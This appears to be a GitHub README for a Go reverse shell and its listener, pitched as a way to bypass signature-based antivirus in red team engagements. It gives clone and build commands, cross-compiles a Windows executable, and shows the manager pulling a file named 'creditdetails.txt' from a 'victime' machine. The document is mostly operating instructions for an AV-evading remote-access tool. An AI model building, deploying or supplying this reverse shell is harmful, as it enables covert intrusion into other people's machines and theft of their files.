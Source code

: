 # Reverseshell and manager in go lang
  
Will help to bypass signature based AV engines while doing red team engagements.

## Getting Started

git clone https://github.com/diljithishere/reversehellgo.git
cd reverseshellgo
go build manageShell.go
./manageShell

Build executable for reverseshell

**GOOS=windows GOARCH=386 go build -o new.exe reverseshell.go**


### Prerequisites

go 1.9

```
./manager
This will wait for the revershell to connect back once connected you can see >> prompt
If you want to download file from victime supply get command  
>> get creditdetails.txt
```
